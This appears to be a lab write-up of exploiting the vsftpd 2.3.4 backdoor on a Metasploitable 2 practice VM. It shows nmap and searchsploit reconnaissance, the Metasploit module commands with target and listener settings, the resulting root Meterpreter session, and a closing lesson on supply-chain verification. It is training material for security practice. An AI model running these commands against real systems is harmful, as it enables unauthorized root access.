



# Metasploitable 2: vsftpd 2.3.4 Backdoor Exploit
 
Exploiting a known backdoor in vsftpd 2.3.4 on Metasploitable 2, a deliberately vulnerable Linux VM built for security practice, run in an isolated VirtualBox lab network with no connection to any real/production system.
 
**Attacker:** Kali Linux (`10.0.2.4`)
**Target:** Metasploitable 2 (`10.0.2.3`)
**Tools:** Nmap, searchsploit, Metasploit Framework
 
---
 
## Background
 
In 2011, the official vsftpd source code was compromised on its distribution server. Malicious code was inserted that opens a root shell on port 6200 when a login attempt uses a username containing the string `:)`. This was discovered and removed within a few weeks, but it remains a widely used teaching example of a supply-chain compromise, a case where the trusted software itself was the attack vector, not a bug found after release.
 
---
 
## 1. Reconnaissance
 
```bash
nmap -sV 10.0.2.3
```
 
Scanned the target and found 21 open ports, including several outdated, high-risk services. The standout:
 
```
21/tcp open ftp vsftpd 2.3.4
```
 
That exact version is the signal — vsftpd 2.3.4 is the specific backdoored release.
 

 
---
 
## 2. Confirming the exploit exists
 
```bash
searchsploit vsftpd 2.3.4
```
 
Found two matching entries in the local Exploit-DB — a standalone Python script and a ready-made Metasploit module.
 

 
---
 
## 3. Exploitation via Metasploit
 
```bash
msfconsole
search vsftpd_234_backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.3
set LHOST 10.0.2.4
run
```
 
The module connected to port 21, sent the trigger string, and the backdoor activated:
 
```
[+] 10.0.2.3:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (10.0.2.4:4444 → 10.0.2.3:55783)
```
 

 
---
 
## 4. Post-exploitation
 
Once inside the Meterpreter session:
 
```bash
sysinfo
getuid
```
 
**Result:** direct root access confirmed, no authentication required at any point.
 
```
Computer    : metasploitable.localdomain
OS          : Ubuntu 8.04 (Linux 2.6.24-16-server)
Server username: root
```
 
---
 
## Key takeaway
 
This wasn't a logic flaw exploited through clever technique — it was a deliberately planted backdoor in software that appeared legitimate. The lesson: trusting a specific software version isn't enough; verifying sources, checksums, and staying current on patched releases matters because the software itself can be the compromise point.
 
---
 
*Performed entirely within an isolated, offline VirtualBox lab network (no internet-facing exposure) against Rapid7's official Metasploitable 2 practice VM.*
